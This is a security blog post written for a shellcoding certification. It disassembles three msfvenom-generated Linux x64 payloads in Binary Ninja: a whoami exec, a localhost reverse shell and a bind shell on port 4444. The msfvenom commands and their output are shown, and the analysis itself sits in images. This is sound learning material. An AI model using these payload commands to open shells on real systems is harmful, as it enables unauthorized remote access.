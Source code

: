 ```yaml
---
layout: single
title: Analyzing MSFVenom Payloads with Binary Ninja - Linux x86_64
date: 2018-7-24
classes: wide
header:
  teaser: /assets/images/Analyzing_Msfvenom_Payloads_with_Binary_Ninja_linux_x86_64/exec .png
---
```


Introduction
------------
In efforts to learn more about Binary Ninja, we will be taking apart three shellcode samples generated via `msfvenom`. Please note that disassemblers in general including Binary Ninja are fairly new to me and as such this will be a learning experience to me as much as it will be to you.

Shellcode I
-----------
First, we’ll look at `exec` option and generate payload that will run `whoami` command.

```sh
➜  ~ msfvenom -p linux/x64/exec CMD=whoami -f elf -o whoami
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 46 bytes
Final size of elf file: 166 bytes
Saved as: whoami
➜  ~ 
```

Will use the comment section in Binary Ninja to explain the shellcode as I feel it would be easier to digest this way.

![](/assets/images/Analyzing_Msfvenom_Payloads_with_Binary_Ninja_linux_x86_64/exec .png)

Shellcode II
------------
Next, we will be looking at stage-less reverse shell with an IP address of localhost and default port of `4444`.

```sh
➜  ~ msfvenom -p linux/x64/shell_reverse_tcp lhost=127.0.0.1 -f elf -o RevShell
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: RevShell
➜  ~ 
```

Let’s disassemble it.

![](/assets/images/Analyzing_Msfvenom_Payloads_with_Binary_Ninja_linux_x86_64/Reverse-Shell.png)

Shellcode III
-------------
Lastly, will dissect stage-less bind shell that listen on all interfaces on port `4444` (default).

```sh
➜  ~ msfvenom -p linux/x64/shell_bind_tcp -f elf -o BindShell
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 86 bytes
Final size of elf file: 206 bytes
Saved as: BindShell
➜  ~ 
```

And the analysis.

![](/assets/images/Analyzing_Msfvenom_Payloads_with_Binary_Ninja_linux_x86_64/Bind-Shell.png)

Closing Thoughts
----------------
I really like Binary Ninja and plan on using it more often moving forward. All of the above binaries are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%205). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
